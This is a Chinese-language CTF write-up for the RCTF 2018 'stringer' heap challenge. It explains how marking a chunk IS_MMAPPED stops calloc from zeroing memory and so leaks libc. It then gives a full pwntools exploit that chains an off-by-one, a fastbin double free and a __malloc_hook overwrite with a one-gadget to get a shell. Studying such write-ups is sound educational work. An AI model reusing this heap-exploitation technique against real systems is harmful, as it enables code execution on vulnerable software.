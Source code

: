 # RCTF stringer
## Author: fanda
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2></font>老样子先贴一下我学习的**NBUSEC**队伍的wp[链接](https://github.com/sajjadium/ctf-writeups/blob/master/RCTF/2018/stringer/stringer_exploit.py)，诶刚起步只能多学习学习其他大佬的。</br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2></font>这题保护全开，给的libc可以改写GOT，所以覆写\__malloc_hook不用多说，程序逆向分析一下发现明显存在off-by-one漏洞和double-free漏洞，当然还有UAF。这题主要难在calloc的行为会阻止我们泄露地址，不过，道高一尺魔高一丈:)</br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2></font>通过观察[calloc](https://github.com/str8outtaheap/heapwn/blob/master/malloc/__libc_calloc.c)的源代码可以看到有这样一段：</br>

```C
 p = mem2chunk (mem);

  /* Two optional cases in which clearing not necessary */
  if (chunk_is_mmapped (p))
    {
      if (__builtin_expect (perturb_byte, 0))
        return memset (mem, 0, sz);

      return mem;
    }

  csz = chunksize (p);
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2></font>意思就是说如果堆块被设置了mmaped标志位的话，calloc就不会把他初始化为0，那么mmaped标志位在哪呢？我们来看一下堆块头（取自[sploitfun](https://sploitfun.wordpress.com/2015/06/09/off-by-one-vulnerability-heap-based/)）：</br>

```C
prev_size – If the previous chunk is free, this field contains the size of previous chunk.
Else if previous chunk is allocated, this field contains previous chunk’s user data.

size : This field contains the size of this allocated chunk. Last 3 bits of this field contains flag information.
	PREV_INUSE (P) – This bit is set when previous chunk is allocated.
	IS_MMAPPED (M) – This bit is set when chunk is mmap’d.
	NON_MAIN_ARENA (N) – This bit is set when this chunk belongs to a thread arena.

fd – Points to next chunk in the same bin.
bk – Points to previous chunk in the same bin.
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2></font>也就是堆块size中的第二个比特位，如果本来size是0x91,我们置了mmaped之后就是0x93(PREV_INUSE | IS_MMAPED)。然后就可以绕过置0，成功泄露地址了:)其他套路都差不多，所以直接放脚本了：</br>

Exploit脚本:
=======

```python
from pwn import *

DEBUG = 1

def add_string(size, content, is_attack=False):
    p.recvuntil('choice: ')
    p.sendline('1')
    p.recvuntil('please input string length: ')
    p.sendline(str(size))

    if not is_attack:
        p.recvuntil('please input the string content: ')
        p.send(content)
        p.recvuntil('your string: ')

def view_string(title):
    p.recvuntil('choice: ')
    p.sendline('2')
    p.recvuntil("don't even think about it")

def edit_string(index, offset):
    p.recvuntil('choice: ')
    p.sendline('3')
    p.recvuntil('please input the index: ')
    p.sendline(str(index))
    p.recvuntil('input the byte index: ')
    p.sendline(str(offset))

def delete_string(index):
    p.recvuntil('choice: ')
    p.sendline('4')
    p.recvuntil('please input the index: ')
    p.sendline(str(index))

def leak():

    add_string(24, 'a' * 24)        # 0 (32) fastbin_1
    add_string(128, 'b' * 128)      # 1 (144) smallbin_1
    add_string(24,  'c' * 24)       # 2 (32) fastbin_2

    delete_string(1)

    # its size changes from 0x91 to 0x93 (PREV_INUSE && IS_MMAPED)
    edit_string(0, 24)
    edit_string(0, 24)

    # smallbin_2 will be placed in smallbin_1's chunk
    add_string(128, 'd' * 7 + '\n') # 3 (144) smallbin_2

    # leak bk pointer of smallbin_1
    p.recvuntil('d' * 7 + '\n')
    return u64(p.recv(6) + '\x00\x00') - 0x3c4b78

def exploit(libc_base):

    # allocate two fastbins to launch the fastbin attack using double free
    add_string(96, 'e' * 96)        # 4 (112) fastbin_3
    add_string(96, 'f' * 96)        # 5 (112) fastbin_4

    delete_string(4)
    delete_string(5)
    delete_string(4)

    fake_chunk = libc_base + 0x3c4aed			# before __malloc_hook
    print 'Fake Chunk: {}'.format(hex(fake_chunk))
    add_string(96, p64(fake_chunk) + 'g' * 88)          # 6 (112) fastbin_5

    add_string(96, 'h' * 96)                            # 7 (112) fastbin_6

    add_string(96, 'i' * 96)                            # 8 (112) fastbin_7

    execve_addr = libc_base + 0xf02a4 			# oneshot address
    add_string(96, 'i' * 19 + p64(execve_addr) + '\n')  # 9 (112) fastbin_8

    add_string(1, '\n', True)

if __name__ == '__main__':
    if DEBUG == 1:
      p = process('./stringer')
    else:
      p = remote('stringer.2018.teamrois.cn',7272)

    libc_base = leak()
    print 'libc base: {}'.format(hex(libc_base))

    exploit(libc_base)

    p.interactive()

```
